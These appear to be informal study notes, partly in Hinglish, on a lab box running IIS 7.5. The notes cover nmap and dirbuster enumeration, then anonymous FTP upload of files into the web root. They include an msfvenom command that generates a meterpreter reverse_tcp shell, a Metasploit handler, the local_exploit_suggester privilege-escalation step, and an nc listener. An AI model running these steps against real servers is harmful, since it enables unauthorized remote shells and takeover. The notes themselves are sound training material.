

started with nmap first
here we will leverage ftp ka anaonymous login

Microsoft IIS httpd 7.5
this is an information disclosure though very low magnitude ka
even IIS7

we got this thus
we see this a lot during pentesting
this is default webpage signifies they have a website running on backedn on some directory
this is finding as its poor hygiene
or mgiht be just a default webpage maybe website wouldnt be there
so first though is to look for extra directories using dirbuster:
used dirbuster could also use dirb or gobuster
type in web adress of this site in it

using this wordlist
there is also big wordlist on github search dirbuster word lisst on google
high chances of machine being microsoft as its running on msII7 na
if apache web server php etension better

asm,asmx,asp,aspx,txt,zip,bak,rar :used these all finally
on inpecting the page source we see that

see img src ="welcome.png"
and that was found on nmap ka resuts too so we can put our own image too here
sosaved image of lets say dog.jpg on desktop

login as username:anonymous
we could go in those files for enumeration and stuff

in files like aspnet_client
did this

- thus iit worked

its imp coz i can put things into thiis folder and its vulnerable only when someone can execute it liek we could this tuime as anonymous login was avaailable
thus this time we put a dog pic bt we could also have put malware onto ths site
we ll do that using msfvenom:
used folls site :
https://netsec.ws/?p=331

so we ll gneerate payload basically generating malware we ll use meterppreter payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
usingthis as we dont know 64 or 32 bit we ll start iwth 32 first

copied it tinto file so that can run t directly or else had to copy paste the shell code generated
in new tab open msfconsole
to run the exploit handler
last time it was done for us this time we ll do it ourselcves

very similar to netcat it says to open up a listener and talk back to me on this ip address

did this
we transfered via ascii code bt u should have transfered via binary
type binary and put ex.aspx
try that binary is better
so our malware is thus iploaded via :


did this
and boom

we got a session

from getuid we see we arent highest authority one so tried wrting getsystem whcih didnt work too

getsystem can actually crash a machine beware

thus using post exploit
post(multi/recon/local_exploit_suggester) >

it will loook through all x86 exploits that are privelege escaltion explots and will look which will work for our windows system
will return a lost of those which might work for us

we ll use kitra wala

thus it didint work for us

now again go tot option

coz u have to set lhost correclty whcih defaults to etheernet interface

LPORT was just changed aise hi
thus we won

we lost sessions in between coz it closes up the older one to start exploiting with the new one
type in msfvenom -l payloads
and instead of running meterpreter try running windows this time
so just do windows/shell/reverse_tcp aisa kuch and in
new tab do nc -nvlp 4444
to listen for something or a shell to come across
thusit would be manually
also nikto could ve been run along with dirbuster